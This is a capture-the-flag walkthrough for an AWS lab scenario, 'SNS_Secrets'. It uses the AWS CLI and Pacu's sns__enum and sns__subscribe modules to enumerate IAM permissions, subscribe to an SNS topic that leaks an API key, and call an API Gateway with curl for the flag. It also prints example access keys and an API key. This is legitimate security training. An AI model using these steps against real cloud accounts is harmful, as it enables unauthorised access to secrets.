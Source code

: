 # SNS_Secrets Walkthrough

## Summary

In this scenario, you are provided with AWS credentials. You need to enumerate permissions and discover you can list and subscribe to SNS topics. You then use Pacu's new modules "sns__enum" and "sns__subscribe" to subscribe to the topic. You will receive an email from the topic with an API Key as a debug message. Then, use the AWS CLI to enumerate the API Gateways to find the API Gateway path, method, stage, and resource. Finally, do a curl request with the API key to get the final flag.

There is a detailed walkthrough on TryHackMe for this scenario: [SNS Secrets Walkthrough](https://tryhackme.com/jr/snssecretswalkthrough)

## Video Walkthrough
[![SNS_Secrets Video Walkthrough](https://i9.ytimg.com/vi/LBkuZa6niR0/mqdefault.jpg?v=665d1bd4&sqp=CIiU97IG&rs=AOn4CLAyCbeb1g5M58sdghxtQlC_dZECLw)](https://www.youtube.com/watch?v=LBkuZa6niR0)

## Detailed Walkthrough

### Configuring the AWS Keys

After launching the scenario, you will be provided with an Access Key ID and Secret Access Key for an IAM role. These allow you to interact with the AWS account from the IAM role using the CLI (Command Line Interface). You can set up an IAM profile with this command:

```bash
aws configure --profile sns-secrets
```

You will then be prompted for the Access Key ID, Secret, and Region. Provide the keys you received after launching the scenario. Below is an example (your keys will be different.)  

```bash
AWS Access Key ID: AKIA2GIZ2CSU6NO2YIXU
AWS Secret Access Key: SYpZBG++MXkmdvmUL614A4XAAs9L88QRrMOBhqZ9
Default region name: us-east-1
Default output format [None]:
```

Finally, you can confirm access by running the AWS equivalent of “whoami”: 

```bash
aws sts get-caller-identity --profile sns-secrets 
```

This should return the UserId, Account, and ARN for the role to verify you have access. 

### Discovering Permissions

Now that we have access to an IAM user in the AWS environment, we need to figure out what permissions we have. This can be done using the AWS CLI. First, we need to see what policies are connected to our user: 
(Note: The username can be found in the output of the “aws sts get-caller-identity” command we ran previously). 

```bash
aws iam list-user-policies --user-name [UserName] --profile sns-secrets
```

This command will return the policy name for our account. We can further enumerate this policy: 

```bash
aws iam get-user-policy --user-name [UserName] --policy-name [PolicyName] --profile sns-secrets 
```

The output of this command provides us with our policy; note our IAM User has permissions related to SNS, IAM, and API Gateway. 

### Subscribing to SNS

Amazon Simple Notification Service (SNS) is a managed messaging service that enables you to send notifications to subscribers using various methods like email, SMS, and HTTP. It's often used for alerting, sending updates, and integrating different systems by delivering messages reliably and quickly. It's important to limit SNS access to specific users to ensure the security and integrity of your messaging system. Unrestricted access could lead to unauthorized users sending spam, triggering unnecessary alerts, or accessing sensitive information.

We can enumerate SNS with Pacu. Pacu is an open-source AWS exploitation framework, designed for offensive security testing against cloud environments. Instructions for installing Pacu are out-of-scope for this walkthrough but you can refer to the [official Pacu documentation on Github](https://github.com/RhinoSecurityLabs/pacu). Once Pacu is installed and a session is configured, you can import the profile you configured: 

```bash
Pacu (sns-secrets:imported-sns-secrets) > import_keys sns-secrets
```

There are two modules for interacting with SNS; you can find these by searching within Pacu: 

```bash
Pacu (sns-secrets:imported-sns-secrets) > search sns

[Category: ENUM]

    List and describe Simple Notification Service topics

  sns__enum

[Category: LATERAL_MOVE]

    Subscribe to a Simple Notification Service (SNS) topic

  sns__subscribe
```

Let’s begin with the “sns__enum” module. We can get more information with this command:

```bash
Pacu (sns-secrets:imported-sns-secrets) > help sns__enum
```

The module will attempt to list and gather information from Simple Notification Service topics. Let’s run it and see if it identifies an SNS topic we can access. 

```bash
Pacu (sns-secrets:imported-sns-secrets) > run sns__enum --region us-east-1
```

We can see the topic by typing “data” to access the Pacu database for our session. 

```bash
Pacu (sns-secrets:imported-sns-secrets) > data
```

Now that we have the full ARN of the SNS Topic, let’s check out the sns__subscribe module: 

```bash
Pacu (sns-secrets:imported-sns-secrets) > help sns__subscribe
```

This module will attempt to subscribe to a topic based on the ARN via an email address. We need to provide it with the topic and an email. 

```bash
Pacu (sns-secrets:imported-sns-secrets) > run sns__subscribe --topics [TopicARN] --email [Email Address]
```

After subscribing, you will need to go to your email and confirm the subscription: 

![Confirm Subscription](confirm-subscription.png)

### Accessing the API Gateway

After subscribing to the topic, you will receive an SNS Message that leaks an API Key for a API Gateway. 

![Leaked API Key](leaked-apikey.png)

Now that we have an API Key for an API Gateway, we need to identify the full URL to access the gateway. First, let’s try and retrieve basic information on the API: 

```bash
aws apigateway get-rest-apis --profile sns-secrets --region us-east-1
```

This provides us with the ID of the API Gateway. Using this ID we can get the stages and resources: 

```bash
aws apigateway get-stages --rest-api-id [API ID] --profile sns-secrets --region us-east-1
aws apigateway get-resources --rest-api-id [API ID] --profile sns-secrets --region us-east-1
```

These commands provide us with the following information:

- Stage Name
- Resource Path

![API Gateway Information](apigateway-info.png)

This information allows us to retrieve the full URL to the API Gateway:

```bash
https://[API-ID].execute-api.us-east-1.amazonaws.com/[stageName]/[resourcePath]
```

Finally, we can use a CURL request with the API Key to retrieve the final flag: 

```bash
curl -X GET \
  'https://[API-ID].execute-api.us-east-1.amazonaws.com/[stageName]/[resourcePath]' \
  -H 'x-api-key: 45a3da610dc64703b10e273a4db135bf'
```

![Final Flag](final-flag.png)
